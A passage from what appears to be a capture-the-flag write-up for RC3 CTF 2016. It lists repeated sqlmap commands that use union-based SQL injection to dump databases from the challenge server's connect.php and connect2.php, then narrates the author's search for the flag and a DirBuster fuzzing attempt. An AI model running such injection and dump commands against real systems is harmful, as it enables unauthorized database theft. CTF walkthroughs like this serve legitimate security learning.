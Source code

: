~~~
sqlmap -u 'https://ctf.rc3.club:2010/connect.php?primary=Administrator' -p primary --dbms=mysql -technique=U --keep-alive --dbs --dump -D flag

sqlmap -u 'https://ctf.rc3.club:2010/connect.php?primary=Administrator' -p primary --dbms=mysql -technique=U --keep-alive --dbs --dump -D CCNs

sqlmap -u 'https://ctf.rc3.club:2010/connect.php?primary=Administrator' -p primary --dbms=mysql -technique=U --keep-alive --dbs --dump -D web_key

sqlmap -u 'https://ctf.rc3.club:2010/connect.php?primary=Administrator' -p primary --dbms=mysql -technique=U --keep-alive --dbs --dump -D mysql

sqlmap -u 'https://ctf.rc3.club:2010/connect.php?primary=Administrator' -p primary --dbms=mysql -technique=U --keep-alive --dbs --dump -D information_schema

sqlmap -u 'https://ctf.rc3.club:2010/connect.php?primary=Administrator' -p primary --dbms=mysql -technique=U --keep-alive --dbs --dump -D performance_schema

sqlmap -u 'https://ctf.rc3.club:2010/connect2.php?secondary=Joker' -p primary --dbms=mysql -technique=U --keep-alive --dbs --dump -D FishingHole

sqlmap -u 'https://ctf.rc3.club:2010/connect2.php?secondary=Joker -p primary --dbms=mysql -technique=U --keep-alive --dbs --dump -D information_schema

sqlmap -u 'https://ctf.rc3.club:2010/connect2.php?secondary=Joker' -p primary --dbms=mysql -technique=U --keep-alive --dbs --dump -D performance_schema

sqlmap -u 'https://ctf.rc3.club:2010/connect2.php?secondary=Joker' -p primary --dbms=mysql -technique=U --keep-alive --dbs --dump -D Social

sqlmap -u 'https://ctf.rc3.club:2010/connect2.php?secondary=Joker' -p primary --dbms=mysql -technique=U --keep-alive --dbs --dump -D mysql
~~~

This really took a lot of time as I examined all the database entries including not supposed to be related ones like the mysql, information_schema and performance_schema to look for leads for the flag.

Sad to say I found nothing! I keep on looking for "RC3-2016-" listed on the database but found none.

Then I thought to myself what if there is some kind of hidden connect. As I have notice the "connect.php" leads to a different database than the "connect2.php".

So, I then proceeded fuzzing the "connect" URL using [DirBuster](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project), I limited the threads to a minimum so I won’t be breaking the server load but again found none!

(╯°□°）╯︵ ┻━┻

There must be something I missed. I then checked again the main R3 CTF 2016 site which leads me on their Hints section which I actually didn’t notice earlier *facepalm*. ಠ⌣ಠ

It gave out hint that the flag is not in plaintext which gave me an idea, as I already saw some of the database entries that are hashed.
